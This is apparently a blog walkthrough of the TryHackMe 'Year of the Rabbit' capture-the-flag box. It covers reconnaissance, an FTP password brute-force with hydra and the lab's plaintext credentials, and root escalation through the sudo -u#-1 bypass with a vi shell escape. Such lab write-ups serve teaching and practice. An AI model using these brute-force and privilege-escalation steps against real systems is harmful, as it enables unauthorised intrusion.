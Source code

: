 ```yaml
---

title: Walkthrough - Year of the Rabbit
published: true
---
```


Time to enter the warren... Can you hack into the Year of the Rabbit box without falling down a hole?

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

- running nmap we get a few open ports

```shell
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
```

- a gobuster scan gives us /assets/ and checking the stylesheet there we get a hint

```css
 Nice to see someone checking the stylesheets.
 Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

- accessing this page takes us to a page where it tells us to disable javascript. We can do this in Firefox by visiting ``about:config`` - this takes us to ``/sup3r_s3cret_fl4g/`` and another flag inside of the video? Nope- Rickrolled

- now running the request to ``/sup3r_s3cr3t_fl4g.php`` and capturing with burp proxy we see a hudden dir. ``/WExYY2Cv-qU``

![](/assets/rabbit01.png)

![](/assets/rabbit0.png)

- download the hot babe she's hiding something.
- running ``strings`` on her we get the information needed to access the ftp server
- ``Eh, you've earned this. Username for FTP is ftpuser`` followed by a list of passwords?
- ``hydra -l ftpuser -P ftp_passes.lst 10.10.220.193 ftp`` to get our credentials for the ftp
- login to the ftp server and mget eli's creds.
- eli's creds are a brainfuck cipher. dcode.fr to get access

* * * 

## User Flag

- eli:DSpDiM1wAEwid
- ``find / -type d -iname "s3cr3t" 2>/dev/null``

```shell
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root

eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ cd /home
gwendoline@year-of-the-rabbit:/home$ ls
eli  gwendoline
gwendoline@year-of-the-rabbit:/home$ cd gwendoline/
gwendoline@year-of-the-rabbit:~$ ls -las
total 24
4 drwxr-xr-x 2 gwendoline gwendoline 4096 Jan 23  2020 .
4 drwxr-xr-x 4 root       root       4096 Jan 23  2020 ..
0 lrwxrwxrwx 1 root       root          9 Jan 23  2020 .bash_history -> /dev/null
4 -rw-r--r-- 1 gwendoline gwendoline  220 Jan 23  2020 .bash_logout
4 -rw-r--r-- 1 gwendoline gwendoline 3515 Jan 23  2020 .bashrc
4 -rw-r--r-- 1 gwendoline gwendoline  675 Jan 23  2020 .profile
4 -r--r----- 1 gwendoline gwendoline   46 Jan 23  2020 user.txt
gwendoline@year-of-the-rabbit:~$ cat user.txt
```

* * * 

## Root Flag

```shell
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

- ``[+] 10.10.220.193 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.``

- alternatively
- ``sudo --version``

- ``sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt``

- and then in vi ``:!/bin/bash``

* * * 
